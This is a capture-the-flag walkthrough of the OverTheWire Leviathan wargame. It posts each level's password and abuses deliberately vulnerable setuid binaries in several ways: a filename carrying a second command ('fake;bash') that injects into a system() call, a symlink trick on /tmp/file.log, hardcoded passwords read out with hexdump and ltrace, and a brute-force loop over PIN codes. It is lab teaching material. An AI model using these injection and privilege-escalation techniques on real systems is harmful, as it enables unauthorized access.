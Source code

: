 # [Leviathan](htt**pass:**//overthewire.org/wargames/leviathan/)

For every level `ssh leviathan[level]@leviathan.labs.overthewire.org -p 2223`

## Leviathan 0

**user:** *leviathan0*  
**pass:** *leviathan0*

`ls -lash`  
`cd .backup`  
`cat bookmarks.html|grep pass`

Password for *leviathan1*: **rioGegei8m**

## Leviathan 1

**user:** *leviathan1*  
**pass:** *rioGegei8m*

`ls -lash`

There is a setuid binary called `check`. Running it prompts for a password.

`hexdump -C check`

We see four plaintext words 'sex','secret','god','love'
We try each of those as the password and 'sex' successfully drops us into a bash shell.

`cat /etc/leviathan_pass/leviathan2`

Password for *leviathan2*: **ougahZi8Ta**

## Leviathan 2

**user:** *leviathan2*  
**pass:** *ougahZi8Ta*

There is a setuid binary called 'printfile'. Running it shows that it prints any file as leviathan3.

`./printfile /etc/leviathan_pass/leviathan3`

Crap... apparently we "can't have that file...". So we can assume there is some sort of filtering going on. Lets take a look at what the code is actually doing.

`ltrace ./printfile .bashrc`

> __libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...>  
> access(".bashrc", 4)                                          = 0  
> snprintf("/bin/cat .bashrc", 511, "/bin/cat %s", ".bashrc")   = 16  
> geteuid()                                                     = 12002  
> geteuid()                                                     = 12002  
> setreuid(12002, 12002)                                        = 0  
> system("/bin/cat .bashrc"

So we see it just takes our argument and supplies it to `/bin/cat`.
It doesnt do any sanitation on the filename so as long as we have access to it. We can have a file named whatever we want. In this case, we want a filename that executes another command upon evaluation by the above code.

`mkdir /tmp/jdh0`  
`touch "/tmp/jdh0/fake;bash"`

Now if we run this file through the binary, it will make the `system()` call "/bin/cat fake;bash" which should give us a shell as leviathan3.

`./printfile "/tmp/jdh0/fake;bash"`
`whoami`

And voila! We are now in a bash shell as *leviathan3*.

`cat /etc/leviathan_pass/leviathan3`

Password for *leviathan3*: **Ahdiemoo1j**

## Leviathan 3

**user:** *leviathan3*  
**pass:** *Ahdiemoo1j*

`ls -lash`

We see another setuid binary called "level3". When we run it, we get a password prompt. Lets see what its doing.

`ltrace ./## Leviathan3`

> __libc_start_main(0x8048618, 1, 0xffffd784, 0x80486d0 <unfinished ...>  
> strcmp("h0no33", "kakaka")                                    = -1  
> printf("Enter the password> ")                                = 20  
> fgets(Enter the password> abc                                        
> "abc\n", 256, 0xf7fc55a0)                               = 0xffffd590  
> strcmp("abc\n", "snlprintf\n")                                = -1  
> puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG  
> )                                    = 19  
> +++ exited (status 0) +++  

It does a random string comparison that will always return false...useless.
Then it prompts for the password.
Then it compares what we provide with the string "snlprintf\n"
So if I am reading this correctly, we just have to type in "snlprintf" as the password?
And yep, we got a shell for leviathan4.

`cat /etc/leviathan_pass/leviathan4`

Password for *leviathan4*: **vuH0coox6m**

## Leviathan 4

**user:** *leviathan4*  
**pass:** *vuH0coox6m*

`ls -lash`

We see a hidden directory ".trash"

`ls -lash .trash`

We see a setuid binary called "bin"

`.trash/bin`

This just prints out a bunch of binary. I bet if we convert it to ascii, it will be the password. Just copy that binary into an online binary to ascii converter and voila!

Password for *leviathan5*: **Tith4cokei**

## Leviathan 5

**user:** *leviathan5*  
**pass:** *Tith4cokei*

`ls -lash`

There is yet another setuid binary called "leviathan5". Running it produces the output "Cannot find /tmp/file.log". So it is looking for that file and presumably printing it out. What if we just tried to symbolically link a file called "/tmp/file.log" to "/etc/leviathan_pass/leviathan6"

`ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log`

No errors. So it might have worked!

`./leviathan5`

And there it is!

Password for *leviathan6*: **UgaoFee4li**

## Leviathan 6

**user:** *leviathan6*  
**pass:** *UgaoFee4li*

`ls -lash`

There is, you guessed it, another setuid binary called "leviathan6". When we run it, we see that it is looking for a 4-digit code. Possibly a pin number to give us the password. There are 10,000 possibilities so lets just brute force it yea?

`for i in {0000..9999}; do ./leviathan6 $i;done`

We wait for this to run and sure enough we get a shell.

`cat /etc/leviathan_pass/leviathan7`

Password for *leviathan7*: **ahy7MaeBo9**

## Leviathan 7

**user:** *leviathan7*  
**pass:** *ahy7MaeBo9*

`ls -lash`

And we see CONGRATULATIONS because we have completed Leviathan! Simple and fun!
